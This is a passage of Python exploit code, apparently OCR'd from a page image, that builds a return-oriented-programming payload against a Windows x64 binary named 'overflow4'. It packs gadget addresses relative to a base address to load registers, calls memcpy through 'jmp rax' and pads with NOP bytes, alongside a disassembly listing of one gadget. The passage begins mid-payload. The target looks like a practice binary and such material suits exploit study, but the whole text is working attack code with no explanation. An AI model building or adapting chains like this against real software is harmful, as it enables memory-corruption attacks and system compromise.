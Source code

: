 ```python
payload += struct.pack("<Q", base_addr+0x3693)  # 0xF8 value 
#payload += struct.pack("<Q", base_addr+0x0285)  # 0xD0 value
payload += struct.pack("<Q", base_addr+0x7678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", base_addr+0x6995)  # add edx, eax; mov eax, edx; ret; 
payload += struct.pack("<Q", base_addr+0x25a5)  # add rdx, r8; cmp dword ptr [rdx], 0x4550; je 0x25b8; ret; 

#got rdx!  moving on

payload += struct.pack("<Q", base_addr+0x276f)  # xor ecx, ecx; mov rax, r9; ret;

#r8
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
#payload += struct.pack("<Q", base_addr+0x10000+0x10B3)  # place 300 on stack --> 0x000000010b7 = 0x300 (we subtract 4 since the command below will be adding 4)
#payload += struct.pack("<Q", base_addr+0x373D) # value= 250
payload += struct.pack("<Q", base_addr+0x3840) # = decimal 280 | 0x118
payload += struct.pack("<Q", base_addr+0x2787)  # see below

"""
00007FF7A2072787 | 44:8B40 04               | mov r8d,dword ptr ds:[rax+4]               |
00007FF7A207278B | 45:85C0                  | test r8d,r8d                               |
00007FF7A207278E | 75 07                    | jne overflow4.7FF7A2072797                 |
00007FF7A2072790 | 8B50 0C                  | mov edx,dword ptr ds:[rax+C]               |
00007FF7A2072793 | 85D2                     | test edx,edx                               |
00007FF7A2072795 | 74 D7                    | je overflow4.7FF7A207276E                  |
00007FF7A2072797 | 85C9                     | test ecx,ecx                               |
00007FF7A2072799 | 7F E5                    | jg overflow4.7FF7A2072780                  |
00007FF7A207279B | 44:8B48 0C               | mov r9d,dword ptr ds:[rax+C]               |
00007FF7A207279F | 4D:01D9                  | add r9,r11                                 | r9:EntryPoint
00007FF7A20727A2 | 4C:89C8                  | mov rax,r9                                 | rax:EntryPoint, r9:EntryPoint
00007FF7A20727A5 | C3                       | ret                                        |
"""

#r8 complete

#rcx

payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x218e)  # mov rcx, rsi; call rax; 

#got RCX! moving on

#call memcpy!
#payload += struct.pack("<Q", 0x140001b5b)  # pop rdi, ret;
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x7D78)  # memcpy (want to jmp to this in the future!)
#payload += struct.pack("<Q", 0x14000217f)  # call rdi, ret; (placeholder)
#00000001400064EC = memcpy

payload += struct.pack("<Q", base_addr+0x192f)  # jmp rax; 
payload += struct.pack("<Q", base_addr+0x192f)  # jmp rax;

#junk
#payload += b"\x90" * 5
payload += b"\x90" * 35
```